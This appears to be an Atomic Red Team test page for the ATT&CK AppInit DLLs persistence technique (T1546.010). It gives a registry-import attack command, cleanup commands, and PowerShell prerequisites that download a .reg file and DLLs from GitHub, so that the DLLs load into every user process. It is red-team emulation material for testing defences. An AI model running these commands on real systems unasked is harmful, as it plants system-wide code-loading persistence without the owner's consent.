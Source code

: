 ```yaml
---
tags: [T1546_010, atomic_test]
filename: "[[T1546.010|T1546.010 - Event Triggered Execution: AppInit DLLs]]"
---
```

# T1546.010 - Event Triggered Execution: AppInit DLLs

## Atomic Test #1 - Install AppInit Shim
AppInit_DLLs is a mechanism that allows an arbitrary list of DLLs to be loaded into each user mode process on the system. Upon succesfully execution, 
you will see the message "The operation completed successfully." Each time the DLL is loaded, you will see a message box with a message of "Install AppInit Shim DLL was called!" appear.
This will happen regularly as your computer starts up various applications and may in fact drive you crazy. A reliable way to make the message box appear and verify the 
AppInit Dlls are loading is to start the notepad application. Be sure to run the cleanup commands afterwards so you don't keep getting message boxes showing up.

Note: If secure boot is enabled, this technique will not work. https://docs.microsoft.com/en-us/windows/win32/dlls/secure-boot-and-appinit-dlls

**Supported Platforms:** Windows


**auto_generated_guid:** a58d9386-3080-4242-ab5f-454c16503d18





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| registry_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010.reg|
| registry_cleanup_file | Windows Registry File | path | PathToAtomicsFolder&#92;T1546.010&#92;src&#92;T1546.010-cleanup.reg|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg.exe import "#{registry_file}"
```

#### Cleanup Commands:
```cmd
reg.exe import "#{registry_cleanup_file}" >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Reg files must exist on disk at specified locations (#{registry_file} and #{registry_cleanup_file})
##### Check Prereq Commands:
```powershell
if ((Test-Path "#{registry_file}") -and (Test-Path "#{registry_cleanup_file}")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory (split-path "#{registry_file}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010.reg" -OutFile "#{registry_file}"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/src/T1546.010-cleanup.reg" -OutFile "#{registry_cleanup_file}"
```
##### Description: DLL's must exist in the C:\Tools directory (T1546.010.dll and T1546.010x86.dll)
##### Check Prereq Commands:
```powershell
if ((Test-Path c:\Tools\T1546.010.dll) -and (Test-Path c:\Tools\T1546.010x86.dll)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory C:\Tools -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010.dll" -OutFile C:\Tools\T1546.010.dll
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1546.010/bin/T1546.010x86.dll" -OutFile C:\Tools\T1546.010x86.dll
```




<br/>
